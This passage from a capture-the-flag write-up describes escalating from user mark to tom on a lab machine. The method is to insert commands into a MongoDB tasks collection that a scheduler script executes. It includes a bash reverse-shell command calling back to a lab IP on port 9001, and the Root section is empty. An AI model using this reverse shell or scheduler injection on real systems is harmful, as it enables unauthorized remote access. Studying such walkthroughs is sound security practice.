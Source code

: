 
# Privilege Escalation

## Tom
- The user.txt is present in tom's home directory, and we cannot cat it out.
- In /var/scheduler we see app.js, which is different from the previous one. When we cat it out, we can see it is querying the database scheduler and collections tasks for "cmd" and executing it.
- We have our mongo creds, so we can login using `mongo -p -u mark scheduler` and provide the password when prompted.
- we can write into the tasks collections using 
```mongo
db.tasks.insertOne({ "cmd" : "touch /tmp/new"})
```
- We can check if the query has been executed using `db.tasks.find()`, as soon as it executes, it will be deleted.
- We can check in /tmp a new file has been created. The owner is tom.
```bash
mark@node:/tmp$ ls
... [snip] ...

-rw-r--r--  1 tom     tom        0 Apr  1 00:58 new.txt

... [snip] ...
```
- Thus we can get command execurtion. We can start a listener on our local machine and input the following in the mongo shell.

```
db.tasks.insertOne({ "cmd" : "bash -c 'bash -i >& /dev/tcp/10.10.14.5/9001 0>&1'" })
```
- We will get a shell in one minute mark, we can set ssh for login next time.

## Root

